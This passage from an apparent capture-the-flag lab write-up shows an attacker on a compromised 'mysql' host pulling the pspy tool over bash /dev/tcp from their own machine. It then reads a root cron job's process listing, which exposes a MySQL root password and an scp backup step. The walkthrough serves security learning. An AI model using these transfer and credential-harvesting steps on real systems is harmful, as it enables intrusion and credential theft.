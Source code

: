 Now use `exec` to connect:

```

jack@mysql:~$ exec 3<>/dev/tcp/10.10.14.6/443

```

At `nc`, there’s the connection:

```

Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:36664.

```

Now I can read from it:

```

jack@mysql:~$ cat <&3 > p

```

When it’s done, check both hashes to make sure it worked:

```

jack@mysql:~$ md5sum p
e04a36bb5444f2275990567614e1f509  p

```

```

oxdf@hacky$ md5sum pspy64
e04a36bb5444f2275990567614e1f509  pspy64

```

Now I’ll run `pspy`. It initially shows the processes that are already running, but there’s not much there. However, every minute it shows something like this:

```

2021/10/09 10:57:01 CMD: UID=0    PID=52954  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52959  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52965  | sh -c mysqldump wordpress -uroot -pOnlyTheBestSecretsGoInShellScripts > /tmp/tmp.bJUwfFuUOB/backup.txt 
2021/10/09 10:57:01 CMD: UID=0    PID=52966  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52974  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52981  | runc init 
2021/10/09 10:57:01 CMD: UID=0    PID=52987  | scp -o StrictHostKeyChecking=no -i /tmp/tmp.bJUwfFuUOB/key /tmp/tmp.bJUwfFuUOB/backup.txt jack@172.69.0.1:/home/jack/backups/1633777021.txt 
2021/10/09 10:57:03 CMD: UID=0    PID=52988  | runc init

```
